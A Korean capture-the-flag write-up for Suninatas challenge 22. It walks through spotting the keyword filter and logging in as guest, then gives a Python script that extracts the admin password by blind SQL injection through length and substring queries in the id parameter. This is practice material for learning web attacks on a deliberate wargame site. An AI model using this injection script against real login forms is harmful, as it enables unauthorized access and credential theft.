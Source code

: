```yaml
---
title: "Suninatas 22 Write up"
categories: SQLi
tags: [blindsqli, wargame]
---
```


Suninatas 22 Write-Up
---------------------

## 문제 분석

문제에 접속하면 아래와 같은 로그인 창과 필터링 되는 단어들을 확인할 수 있었습니다.
필터링 내용들을 살펴보면 여태까지 봤던 문제 중 가장 많은 것을 볼 수 있었습니다.

![Suninatas_22_Main](/_image/suninatas_22_main.png)

문제의 풀이 조건에 대해 알 필요가 있으므로 먼저 개발자 도구를 통해 소스코드를 확인한 결과
 주석에 admin 계정으로 로그인하라는 조건이 있는 것을 찾을 수 있었습니다.

![Suninatas_22_source](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_source.png?raw=true)

따라서 이 문제의 flag는 admin 계정의 password 혹은 로그인 할 경우 얻을 수 있는 것으로 짐작할 수 있었습니다.

또한 테스트하기 위한 계정으로 guest/guest 계정이 있다고 하여 해당 계정을 이용하여 로그인 해보았습니다.

![Suninatas_22_guest](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/sunintas_22_guest.png)

사진을 보면 알 수 있듯이 OK guest라는 문구가 출력되는 것을 알 수 있었고 로그인에 성공할 경우 OK 라고 뜨는 것을 단서로 하여 blind SQL Injection을 
시도하였습니다.

* * *

## Qeury Statement 작성

SQL Injection에 주로 사용되는 keyword들이 대거 필터링 되었기에 쉽게 풀이에 접근하지 못하였습니다.
제시되어 있는 키워드 이외에도 '(Single Quote), substring과 같은 keyword도 입력하려고 할 경우 no hack이라고 출력되었기에
 해결 방법을 찾지 못하였습니다. 

Null byte 삽입과 같은 방법으로 필터링을 우회할 수 있는 몇 가지 방법을 찾기도 하였으나 이를 공격으로 연계하지를 못하였습니다.
 다른 Write-Up을 찾아본 결과 생각보다 간단한 방법으로 풀이하였는데 한 가지 이해가 되지 않은 부분은 직접 GET 형식에 맞춰 작성한 것과
 id, pw 입력란에 입력한 내용이 필터링 대상이 다른 것이었습니다. 대표적으로 id, pw란에서는 white space가 필터링 대상이었는데 GET 형식으로 
직접 url란에 입력한 경우 white space가 필터링 되지 않았기 때문입니다.

* * *

어찌되었든 해결 방법에 대해서는 알았으므로 자동화 코드의 경우 직접 작성해보았습니다. password의 길이를 알아내는 부분에서 최대 길이를 15로 잡은 것은
 html code 내에서 pw 입력란을 최대 15자로 제한하였기 때문입니다. 코드의 경우 아래와 같이 작성했습니다.

``` python
#!/usr/bin/python

import requests as req

cookies = {"ASP.NET_SessionId":"sbd2hldgbghcshskmhnubw2g", "ASPSESSIONIDSADBSAQD":"ONINCAKAHJGGDDMKBANMGNNP"}
url = "http://suninatas.com/challenge/web22/web22.asp"
maxpass = 15
length = 0
password = ""
parameter = {"pw":"haha"}

for i in range(maxpass):
    parameter['id']="admin' and len(pw)={}-- ".format(i+1)
    response = req.get(url, cookies=cookies, params=parameter)

    if response.text.find("OK") != -1:
        length = i+1
        print("Password length is {}".format(length))

for i in range(1, length+1):
    for j in range(32, 128):
        parameter['id'] = "admin' and substring(pw, {0}, 1)='{1}'--".format(i, chr(j))
        response = req.get(url, cookies=cookies, params=parameter)
        if response.text.find("OK") != -1:
            password += chr(j)

print("admin's password is " + password)
```

session의 경우 자신의 환경에 맞게 변경하여 사용하면 됩니다. 코드를 작성할 때 제대로 값이 출력되지 않아서 잘못 작성한 줄 알았었는데, 
문자를 비교하는 과정에서 이를 ' '로 묶어주지 않아서 숫자 값만 제대로 비교하고 문자 값의 경우 제대로 비교하지 못했던 오류가 있었습니다.
